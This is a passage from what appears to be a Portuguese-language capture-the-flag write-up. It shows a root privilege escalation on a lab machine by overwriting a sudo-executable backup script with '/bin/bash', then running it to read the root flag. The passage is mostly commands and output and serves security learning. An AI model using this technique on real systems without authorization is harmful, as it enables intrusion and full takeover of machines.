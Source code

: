No entanto ele não possui nada que possa nos ajudar, mas podemos fazer com que ele possua, tentando fazer com que ele execute uma nova instancia do bash como super usuário:

```bash
$ echo "/bin/bash" > /etc/mp3backups/backup.sh
-bash: /etc/mp3backups/backup.sh: Permission denied
```

Nada feito, mas se temos permissão para execução, vamos tentar trocar as permissões do arquivo, lebrando geral:

```bash
$ chmod 777 /etc/mp3backups/backup.sh
```

Vamos tentar novamente:

```bash
$ echo "/bin/bash" > /etc/mp3backups/backup.sh
```

Sucesso! Basta agora executar o arquivo e testar o acesso como root:

```bash
$ sudo /etc/mp3backups/backup.sh
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Aaah garoto! Daqui em diante é só correr para pegar o nosso prêmio:

```bash
$ ls /root/
root.txt

$ cat /root/root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

---

Mais uma vez, espero que tenha aprendido algo e que este artigo sirva como base na resolução de problemas futuros.

Abraços!
